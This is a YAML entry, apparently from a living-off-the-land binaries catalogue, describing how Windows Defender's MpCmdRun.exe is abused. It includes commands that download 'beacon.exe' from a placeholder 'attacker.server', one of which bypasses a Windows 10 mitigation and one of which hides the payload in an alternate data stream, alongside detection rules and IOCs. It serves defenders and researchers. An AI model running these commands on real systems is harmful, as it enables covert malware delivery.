 ```yaml
---
Name: MpCmdRun.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender
Author: 'Oddvar Moe'
Created: 2020-03-20
Commands:
  - Command: MpCmdRun.exe -DownloadFile -url https://attacker.server/beacon.exe -path c:\\temp\\beacon.exe
    Description: Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path)
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10
  - Command: copy "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" C:\Users\Public\Downloads\MP.exe && chdir "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\" && "C:\Users\Public\Downloads\MP.exe" -DownloadFile -url https://attacker.server/beacon.exe -path C:\Users\Public\Downloads\evil.exe
    Description: Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path) [updated version to bypass Windows 10 mitigation]
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10
  - Command: MpCmdRun.exe -DownloadFile -url https://attacker.server/beacon.exe -path c:\temp\nicefile.txt:evil.exe
    Description: Download file to machine and store it in Alternate Data Stream
    Usecase: Hide downloaded data inton an Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.4-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.7-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe
  - Path: C:\Program Files\Windows Defender\MpCmdRun.exe
  - Path: C:\Program Files (x86)\Windows Defender\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.23110.3-0\X86\MpCmdRun.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/159bf4bbc103cc2be3fef4b7c2e7c8b23b63fd10/rules/windows/process_creation/win_susp_mpcmdrun_download.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/6ef5c53b0c15e344f0f2d1649941391aea6fa253/rules/windows/command_and_control_remote_file_copy_mpcmdrun.toml
  - IOC: MpCmdRun storing data into alternate data streams.
  - IOC: MpCmdRun retrieving a file from a remote machine or the internet that is not expected.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching mpcmdrun.exe.
  - IOC: Monitor for the creation of %USERPROFILE%\AppData\Local\Temp\MpCmdRun.log
  - IOC: User Agent is "MpCommunication"
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus
  - Link: https://twitter.com/mohammadaskar2/status/1301263551638761477
  - Link: https://twitter.com/Oddvarmoe/status/1301444858910052352
  - Link: https://twitter.com/NotMedic/status/1301506813242867720
Acknowledgement:
  - Person: Askar
    Handle: '@mohammadaskar2'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: RichRumble
    Handle: ''
  - Person: Cedric
    Handle: '@th3c3dr1c'
---
```

